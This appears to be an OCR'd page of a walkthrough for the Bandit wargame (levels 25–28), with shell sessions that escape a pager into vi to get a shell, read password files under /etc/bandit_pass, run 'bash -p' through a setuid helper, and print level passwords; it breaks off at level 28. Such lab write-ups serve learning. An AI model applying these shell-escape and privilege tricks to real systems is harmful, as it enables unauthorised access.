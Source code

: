 export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ 
Pulsar v
:e /etc/bandit_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
:set shell=/bin/bash
:shell                                                                                                                           
bandit26@bandit:~$ 
 

Bandit Level 26 → Level 27
Good job getting a shell! Now hurry and grab the password for bandit27!
bandit26@bandit:~$ ./bandit27-do  
Run a command as another user. 
  Example: ./bandit27-do id 
bandit26@bandit:~$ ./bandit27-do whoami 
bandit27 
bandit26@bandit:~$ ./bandit27-do bash -p 
bash-5.1$ whoami 
bandit27 
bash-5.1$ cat /etc/bandit_pass/bandit27 
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS 
bash-5.1$ 
 

Bandit Level 27 → Level 28
There is a git repository at ssh://bandit27-git@localhost/home/bandit27-git/repo. The password for the user bandit27-git is the same as for the user bandit27.
Clone the repository and find the password for the next level.
bandit27@bandit:~$ mktemp -d 
/tmp/tmp.TUn4ORywwD 
bandit27@bandit:~$ cd /tmp/tmp.TUn4ORywwD
 bandit27@bandit:/tmp/tmp.TUn4ORywwD$ git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
 bandit27@bandit:/tmp/tmp.TUn4ORywwD$ ls 
repo 
bandit27@bandit:/tmp/tmp.TUn4ORywwD$ cd repo 
bandit27@bandit:/tmp/tmp.TUn4ORywwD/repo$ ls 
README 
bandit27@bandit:/tmp/tmp.TUn4ORywwD/repo$ cat README  
The password to the next level is: AVanL161y9rsbcJIsFHuw35rjaOM19nR
 

Bandit Level 28 → Level 29
There is a git repository at ssh://bandit28-git@localhost/home/bandit28-git/repo. The password for the user bandit28-git is the same as for the user bandit28.
Clone the repository and find the password for the next level.
bandit28@bandit:~$ mktemp -d 
/tmp/tmp.WesdYQ4J1w 
bandit28@bandit:~$ cd /tmp/tmp.WesdYQ4J1w 
bandit28@bandit:/tmp/tmp.WesdYQ4J1w$ git clone ssh://bandit28-git@localhost:2220/home/bandit28-git/repo
 bandit28@bandit:/tmp/tmp.WesdYQ4J1w$ ls 
repo 
bandit28@bandit:/tmp/tmp.WesdYQ4J1w$ cd repo 
bandit28@bandit:/tmp/tmp.WesdYQ4J1w/repo$ ls 
README.md 
bandit28@bandit:/tmp/tmp.WesdYQ4J1w/repo$ cat README.md  
# Bandit Notes 
Some notes for level29 of bandit. 
 